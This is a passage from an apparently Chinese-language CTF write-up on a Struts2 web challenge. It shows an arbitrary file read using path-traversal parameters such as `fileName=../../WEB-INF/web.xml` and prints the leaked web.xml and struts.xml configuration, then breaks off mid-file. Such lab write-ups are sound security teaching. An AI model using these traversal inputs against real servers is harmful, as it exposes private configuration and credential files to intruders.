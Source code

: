 猜测可以任意读取文件。尝试一下index.jsp，真的成功了。根据javaweb的文件结构，读取`fileName=../../WEB-INF/web.xml`

```xml
<?xml version="1.0" encoding="UTF-8"?>
<web-app id="WebApp_9" version="2.4"
         xmlns="http://java.sun.com/xml/ns/j2ee"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://java.sun.com/xml/ns/j2ee http://java.sun.com/xml/ns/j2ee/web-app_2_4.xsd">
    <display-name>Struts Blank</display-name>
    <filter>
        <filter-name>struts2</filter-name>
        <filter-class>org.apache.struts2.dispatcher.ng.filter.StrutsPrepareAndExecuteFilter</filter-class>
    </filter>
    <filter-mapping>
        <filter-name>struts2</filter-name>
        <url-pattern>/*</url-pattern>
    </filter-mapping>
    <welcome-file-list>
        <welcome-file>/ctfpage/index.jsp</welcome-file>
    </welcome-file-list>
    <error-page>
        <error-code>404</error-code>
        <location>/ctfpage/404.html</location>
    </error-page>
</web-app>
```

注意到使用struts2框架编写。根据此框架的目录结构，读取`?fileName=../../WEB-INF/classes/struts.xml`

```xml
<struts>
	<constant name="strutsenableDynamicMethodInvocation" value="false"/>
    <constant name="struts.mapper.alwaysSelectFullNamespace" value="true" />
    <constant name="struts.action.extension" value=","/>
    <package name="front" namespace="/" extends="struts-default">
        <global-exception-mappings>
            <exception-mapping exception="java.lang.Exception" result="error"/>
        </global-exception-mappings>
        <action name="zhuanxvlogin" class="com.cuitctf.action.UserLoginAction" method="execute">
            <result name="error">/ctfpage/login.jsp</result>
            <result name="success">/ctfpage/welcome.jsp</result>
        </action>
        <action name="loadimage" class="com.cuitctf.action.DownloadAction">
            <result name="success" type="stream">
                <param name="contentType">image/jpeg</param>
                <param name="contentDisposition">attachment;filename="bg.jpg"</param>
                <param name="inputName">downloadFile</param>
            </result>
            <result name="suffix_error">/ctfpage/welcome.jsp</result>
        </action>
    </package>
    <package name="back" namespace="/" extends="struts-default">
        <interceptors>
            <interceptor name="oa" class="com.cuitctf.util.UserOAuth"/>
            <interceptor-stack name="userAuth">
                <interceptor-ref name="defaultStack" />
                <interceptor-ref name="oa" />
            </interceptor-stack>

        </interceptors>
        <action name="list" class="com.cuitctf.action.AdminAction" method="execute">
            <interceptor-ref name="userAuth">
                <param name="excludeMethods">
```